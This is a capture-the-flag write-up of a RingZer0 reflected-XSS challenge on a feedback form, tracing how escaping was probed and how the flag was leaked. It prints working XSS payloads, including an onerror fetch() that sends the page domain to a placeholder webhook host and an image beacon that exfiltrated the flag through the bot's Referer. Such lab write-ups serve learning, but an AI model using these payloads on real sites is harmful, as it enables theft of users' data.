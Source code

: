 # XSS Challenge 2 Solutions

The first payload I tried with is 
```
abcd"<'`
```
and viewing the page source for the response is the following:
```html
<!DOCTYPE html>
<html>
<head>
  <title>RingZer0 Team Online CTF Challenge</title>
  <link rel="stylesheet" type="text/css" href="/css/main.css">
</head>
<body>
  <header></header>
  <div class="padding"><img src="/imgs/logo.png" /></div>
  <section>
      <br />
      <br />
      Your opinion matters to us! Write some feedback.<br /><br />
      <form action="" method="post">
          Comment<br />
          <textarea name="comment"></textarea><br />
          <input type="submit" value="submit" />
      </form>
  <br />abcd\"<\'`<br /><br />
  </section>
  <div class="pre_footer"></div>
  <footer>RingZer0 Team 2022</footer>
</body>
</html>
```

Essentially, this is how my payload was reflected in the document:
```html
<br />abcd\"<\'`<br /><br />
```
The single and double quotation marks seem to have been escaped but the `<` and the `` ` `` characters were not.  

Because the `<` was not escaped, the next payload I tried was the following:
```html
<img src=x onerror=alert(1)>
```
I was able to get an XSS working with the above payload on my browser so it was time to craft a payload to send a request to my webhook listener (I used Burp Collaborator).
```html
<img src=x onerror=fetch(`http://mywebhooklistener.com?q=${document.domain}`)>
```

I received a request from my own browser, but nothing from the XSS bot.

Then I started thinking about why and one guess was that maybe the XSS bot is old and so the Fetch API and backticks may not be supported. I also checked `caniuse` for the Fetch API and backticks (links [here](https://caniuse.com/fetch) and [here](https://caniuse.com/template-literals)) and it looks like there are a lot of old browsers that don't support these. 

So I started to look at something simpler. All I needed was a request to my webhook listner so I used the following payload:

```html
<img src=http://mywebhooklistener.com>
```
and received one request from my browser and one from the XSS Bot:

```
GET / HTTP/1.1
Referer: http://127.0.0.1/xss2/bot_endpoint_qQ134dJO8J.php?FLAG-[CENSORED]
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: mywebhooklistener.com
```

Found the flag! :)

Also an interesting note, looks like the user agent is `PhantomJS/2.1.1`.